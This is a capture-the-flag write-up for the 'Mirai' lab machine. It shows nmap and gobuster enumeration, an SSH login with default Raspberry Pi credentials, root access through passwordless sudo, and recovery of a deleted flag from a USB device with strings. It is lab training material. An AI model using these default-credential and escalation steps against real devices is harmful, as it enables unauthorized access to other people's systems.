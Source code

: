 # Solution

The name of the machine may give us an idea of what to expect from the box. 
Mirai is a malware which scans the internet for open telnet ports and tries to log in with default credentials. It managed to create a huge botnet in the past.  
We can expect that exploiting default credentials in some services, we can gain access to the box.

Start with the usual nmap to enumerate
```
nmap -sC -sV -oN nmap-initial 10.10.10.48
```

We see SSH and port 80 open. Browsing the website we get a blank page.  

We run gobuster
```
gobuster dir -u http://10.10.10.48 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 25 -o gobuster.out
```

One of the exposed directories is /admin. By browsing it, we access the  pihole admin interface. We thus know that the machine is a raspberry pi. We can try to log in through SSH using the default credentials (user:pi , password:raspberry).  
It works and we have a shell. Once we are inside we check whether the user pi can use sudo on any commands.

```
>sudo -l

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```
We can run all the commands and no need to provide a password. Therefore:
```
>pi@raspberrypi:~/Desktop $ sudo -i
root@raspberrypi:~# ls
root.txt
root@raspberrypi:~# cat root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```

The root.txt file is not here. Mmmmm, he mention something about the USB stick.  
Usually the USB sticks are mounted under the /media directory. If we move to that directory we find a directory and a file.  
```
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Next step is to recover the file deleted by James. We can see if the file is still in the USB memory. 
First we see what is the device fileof the USB stick:
```
>root@raspberrypi:/media/usbstick# df
Filesystem     1K-blocks    Used Available Use% Mounted on
aufs             8856504 2838380   5545192  34% /
tmpfs             102396    4868     97528   5% /run
/dev/sda1        1354528 1354528         0 100% /lib/live/mount/persistence/sda1
/dev/loop0       1267456 1267456         0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs             255988       0    255988   0% /lib/live/mount/overlay
/dev/sda2        8856504 2838380   5545192  34% /lib/live/mount/persistence/sda2
devtmpfs           10240       0     10240   0% /dev
tmpfs             255988       8    255980   1% /dev/shm
tmpfs               5120       4      5116   1% /run/lock
tmpfs             255988       0    255988   0% /sys/fs/cgroup
tmpfs             255988       8    255980   1% /tmp
/dev/sdb            8887      93      8078   2% /media/usbstick
tmpfs              51200       0     51200   0% /run/user/999
tmpfs              51200       0     51200   0% /run/user/1000
```
It is /dev/sdb. We can now print the readable characters in the device file and hope for a flag :)
```
strings /dev/sdb
```

The content of the deleted file has not been overwritten and it's still in the USB memory.  
Here is the flag :)
